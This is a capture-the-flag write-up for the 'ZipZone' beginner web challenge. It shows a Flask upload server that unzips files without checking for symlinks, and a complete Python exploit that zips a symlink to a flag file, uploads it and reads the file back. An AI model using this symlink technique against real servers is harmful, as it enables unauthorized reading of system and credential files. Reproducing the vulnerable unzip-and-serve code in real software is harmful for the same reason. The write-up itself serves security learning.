 +++
title = 'ZipZone'
tags = [
  "Web",
  "Python",
  "Symlink",
  "50 points",
  "173 solves",
  "rex",
]
date = 2024-09-02T10:59:17+02:00
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>Zipzone</h1>

**Description**: I was tired of trying to find a good file server for zip files, so I made my own! It's still a work in progress, but I think it's pretty good so far.

**Link**: <https://zipzone-web.challs.csc.tf/>

## Introduction

ZipZone is the only one web in the beginner's category and, as the title suggests, you have to upload zip files that will be unzipped later, so you have to download the extracted files afterwards.

## Source

```python
# filename: app.py

import logging
import os
import subprocess
import uuid

from flask import (
    Flask,
    abort,
    flash,
    redirect,
    render_template,
    request,
    send_from_directory,
)

app = Flask(__name__)
upload_dir = "/tmp/"

app.config["MAX_CONTENT_LENGTH"] = 1 * 10**6  # 1 MB
app.config["SECRET_KEY"] = os.urandom(32)


@app.route("/", methods=["GET", "POST"])
def upload():
    if request.method == "GET":
        return render_template("index.html")

    if "file" not in request.files:
        flash("No file part!", "danger")
        return render_template("index.html")

    file = request.files["file"]
    if file.filename.split(".")[-1].lower() != "zip":
        flash("Only zip files allowed are allowed!", "danger")
        return render_template("index.html")

    upload_uuid = str(uuid.uuid4())
    filename = f"{upload_dir}raw/{upload_uuid}.zip"
    file.save(filename)
    subprocess.call(["unzip", filename, "-d", f"{upload_dir}files/{upload_uuid}"])

    print(f"Unzipped {filename} to {upload_dir}files/{upload_uuid}")

    flash(
        f'Your file is at <a href="/files/{upload_uuid}">{upload_uuid}</a>!', "success"
    )
    logging.info(f"User uploaded file {upload_uuid}.")
    return redirect("/")


@app.route("/files/<path:path>")
def files(path):
    try:
        return send_from_directory(upload_dir + "files", path)
    except PermissionError:
        abort(404)


@app.errorhandler(404)
def page_not_found(error):
    return render_template("404.html")


if __name__ == "__main__":
    app.run(debug=True, host="0.0.0.0", port=5000)

```

## Solution

Being actually a web in the beginner category, I initially just gave a quick read to the source code, where in fact no checks are done on the files inside the zipper, but only on the zipper itself, where we see the extension is checked

```python
# filename: exploit.py

#!/usr/bin/python3

import os
import subprocess
import requests
from bs4 import BeautifulSoup

BASE_URL = "https://zipzone-web.challs.csc.tf"
URL_HOOK = ""

def get_uuid(text):
  soup = BeautifulSoup(text, 'html.parser')
  for a in soup.find_all('a', href=True):
    if a['href']:
      return a['href'].split('/')[-1]


def upload_file(file_path):
  with open(file_path, "rb") as f:
    files = {"file": f}
    response = requests.post(BASE_URL, files=files)
    return get_uuid(response.text)


def create_exploit(zip_filename:str,symlink_name:str,symlink_target:str):
    os.symlink(symlink_target, symlink_name)
    subprocess.run(['zip', '-y', zip_filename, symlink_name], check=True)
    print(f'{zip_filename} created.')
    os.remove(symlink_name)

def get_flag(UUID):
  response = requests.get(f'{BASE_URL}/files/{UUID}/evil_link',stream=True)
  if response.status_code == 200:
    with open("flag", 'wb') as f:
      for chunk in response.iter_content(chunk_size=8192):
        f.write(chunk)
    print(f"Flag download successfully")
  else:
      print(f"Error during the download: {response.status_code}")

  return open("flag", "r").read().strip()

def clean():
    os.remove('exploit.zip')
    os.remove('flag')

def main():
  create_exploit(zip_filename='exploit.zip',symlink_name='evil_link',symlink_target='/home/user/flag.txt')
  UUID = upload_file('./exploit.zip')
  print(f'UUID: {UUID}')
  flag = get_flag(UUID)
  print(f"Flag: {flag}")
  clean()

if __name__ == "__main__":
  main()

# goodluck by @akiidjk

```

The solutions is very simple, A symlink is simply created pointing to /home/user/flag, it is then zipped and sent to the page, we save the file id and in the path uuid/name_file we send the file pointing to the symlink.

```stdout
$ flag: CSCTF{5yml1nk5_4r3_w31rd}
```

<p align='right'>Author: akiidjk </p>
